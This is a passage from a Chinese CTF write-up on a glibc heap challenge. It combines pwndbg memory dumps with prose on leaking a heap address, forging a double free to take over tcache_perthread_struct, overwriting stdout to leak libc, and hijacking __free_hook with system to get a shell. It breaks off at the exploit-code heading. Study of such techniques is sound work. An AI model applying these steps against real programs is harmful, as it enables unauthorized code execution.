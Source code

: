 ```
0x555555757310: 0x0000000000000000      0x0000000000020cf1
0x555555757320: 0x0000000000000000      0x0000000000000000
0x555555757330: 0x0000000000000000      0x0000000000000000
pwndbg&gt;
```

也就是说如果我们此时调用`show`函数就可以泄漏出一个堆地址。那么得到这个堆地址之后就可以利用两次`edit`的机会构造`double free`，覆写`fd`指针，使得我们可以分配到`pthread_tcache_struct`结构体所在的堆块进而控制`tcache`的`count`和`entry`指针，从而实现任意的地址分配。

但是现在还存在一个问题就是如何泄漏得到`libc`基地址，上面我们已经控制了`tcache`，那么就可以将`0x290`大小堆块对应的`count`设置为`7`，进而释放`pthread_tcache_struct`结构体，那么该结构体就会被释放到`unsorted bin`中，也就是存在了一个`libc`地址。

```
pwndbg&gt; heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x555555757310 (size : 0x20cf0)
       last_remainder: 0x0 (size : 0x0)
            unsortbin: 0x555555757000 (size : 0x290)
(0x30)   tcache_entry[1](251): 0
(0x40)   tcache_entry[2](255): 0
(0x70)   tcache_entry[5](251): 0
(0x80)   tcache_entry[6](255): 0x555555757 (invaild memory)
(0x290)   tcache_entry[39](7): 0
pwndbg&gt; x/20gx 0x555555757000
0x555555757000: 0x0000000000000000      0x0000000000000291
0x555555757010: 0x00007ffff7fb9c00      0x00007ffff7fb9c00
0x555555757020: 0x0000000000000000      0x0000000000000000
0x555555757030: 0x0000000000000000      0x0000000000000000
0x555555757040: 0x0000000000000000      0x0000000000000000
0x555555757050: 0x0000000000000000      0x0007000000000000
0x555555757060: 0x0000000000000000      0x0000000000000000
0x555555757070: 0x0000000000000000      0x0000000000000000
0x555555757080: 0x0000000000000000      0x0000000000000000
0x555555757090: 0x0000000000000000      0x0000000000000000
```

那么在堆块中存在改地址之后就可以再次利用任意地址分配，覆写`main_arena`附近的地址使其指向`stdout`。这个过程中由于堆块的分配导致`libc`地址向高地址方向移动，最终我选择的是在`0x60 tcache entry`位置处存储`main_arena`附近的地址，将其覆写为`stdout`再申请`0x60`大小的堆块即可覆写`stdout`结构体，泄漏出`libc`地址。这里需要`1/16`的爆破。

泄漏到`libc`地址之后就好说了，再次利用任意地址分配分配到`free_hook`，覆写其为`system`，`getshell`。

### <a class="reference-link" name="EXP"></a>EXP
